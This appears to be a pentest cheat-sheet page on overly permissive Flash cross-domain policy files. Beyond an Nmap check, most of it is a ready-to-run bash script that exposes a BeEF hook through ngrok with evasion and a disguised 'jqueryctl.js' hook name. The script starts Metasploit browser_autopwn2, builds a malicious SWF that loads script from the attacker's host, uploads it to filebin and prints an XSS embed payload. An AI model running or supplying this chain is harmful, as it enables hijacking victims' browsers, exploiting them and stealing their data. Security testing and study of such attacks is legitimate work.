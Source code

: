 # RIA Cross Domain Policy

## Check List

* [ ] Review and validate the policy files.

## Cheat Sheet

### Methodology

#### Overly Permissive Flash Cross-Domain Policy (crossdomain.xml / clientaccesspolicy.xml)

{% stepper %}
{% step %}
CrossDomain.xml & clientaccesspolicy.xml file
{% endstep %}

{% step %}
Check and identify the presence of crossdomain.xml & clientaccesspolicy.xml files on the target using Nmap command
{% endstep %}

{% step %}
If the files exist, we run them using the next command, which is a script related to BeEF
{% endstep %}

{% step %}
Vulnerability Conditions The `crossdomain.xml` file is overly permissive (`<allow-access-from domain="*">`) Sensitive data or actions are accessible on the target domain
{% endstep %}

{% step %}
Exploit Modify the ActionScript to fetch sensitive data from the target domain and send it to a malicious server Compile the ActionScript into an SWF file
{% endstep %}

{% step %}
Capture Data Use a script to capture stolen data from the victim when they load the malicious SWF Direct the victim to a page with the malicious SWF, ensuring they are logged into the target site Review the data captured on the malicious server for sensitive information
{% endstep %}
{% endstepper %}

***

### Check Policy Files Weakness

#### [Nmap](https://nmap.org/)

{% hint style="info" %}
Check crossdomain.xml & clientaccesspolicy.xml
{% endhint %}

```bash
nmap -p 80,443 \
     -sS -sV --mtu 5000 \
     --script http-cross-domain-policy \
     --script-args http-cross-domain-policy.domain-lookup=true $WEBSITE
```

### [BeEF](https://github.com/beefproject/beef) (SWF)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beefer.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    printf "${GREEN}[*] sudo ./beef-csp-bypass.sh\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Run Ngrok
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y;use auxiliary/server/browser_autopwn2;set LHOST $WAN;set URIPATH /pwn;run -z" >/dev/null 2>&1 &
sleep 1
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi
printf "${GREEN}[*] BeEF with new configuration...${RESET}\n"

# Start BeEF XSS framework
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Create the SWF payload
cat <<EOF > /tmp/beef.as
package {
    import flash.display.MovieClip;
    import flash.net.URLRequest;
    import flash.net.navigateToURL;

    public class beef extends MovieClip {
        public function beef() {
            var request:URLRequest = new URLRequest("javascript:function myFunction(){var x = document.createElement('SCRIPT');x.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(x);};myFunction();");
            navigateToURL(request);
        }
    }
}
EOF
/opt/flex-sdk/bin/mxmlc /tmp/beef.as -output /tmp/logo.swf &>/dev/null &
rm -f /tmp/beef.as
printf "${GREEN}[*] SWF payload generated successfully...${RESET}\n"

# Upload to Filebin and Display Payload
bin_id=$(curl -s https://filebin.net | grep -oP 'href="https://filebin.net/(\w+)"' | sed -E 's/href="https:\/\/filebin.net\/([a-zA-Z0-9]+)"/\1/')
curl -s -X POST "https://filebin.net/${bin_id}/logo.swf" -H "Content-Type: application/x-shockwave-flash" --data-binary "@/tmp/logo.swf"
rm -f /tmp/logo.swf
clear
printf "\n\n"
printf "${CYAN}XSS Payload:${RESET}\n"
printf "\n"
printf "${YELLOW}<object type=\"application/x-shockwave-flash\" data=\"https://filebin.net/${bin_id}/logo.swf\"><param name=\"movie\" value=\"https://filebin.net/${bin_id}/logo.swf\"></object>"
printf "\n"
printf "${CYAN}BeEF Panel: https://${NGHOST}/ui/panel${RESET}\n"
printf "${CYAN}BeEF USER: unk9vvn${RESET}\n"
printf "${CYAN}BeEF PASS: 00980098${RESET}\n"
printf "\n"
printf "${GREEN}BeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute${RESET}\n"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beefer.sh;sudo ./beefer.sh
```
